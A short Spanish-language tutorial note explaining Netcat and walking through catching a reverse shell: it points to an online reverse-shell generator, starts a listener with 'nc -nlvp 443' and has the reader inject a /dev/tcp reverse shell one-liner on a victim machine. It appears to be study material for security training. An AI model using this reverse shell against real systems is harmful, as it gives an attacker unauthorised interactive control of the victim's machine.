 ¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re  
  

> [!important] https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

  

![[image.png]]

  

  
Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

  
  
`**nc -nlvp 443**`  
  

> [!important] `**nc**`: Invoca **la herramienta** Netcat.<br><br><br>`**-n**`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.<br><br><br>`-``**l**`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.<br><br><br>`-``**v**`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.<br><br><br>`-``**p 443**`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).<br><br>

  

![[9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png]]

  

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator.  
  
  
`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

  

![[image 1.png]]

  

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

  

![[image 2.png]]

![[image 3.png]]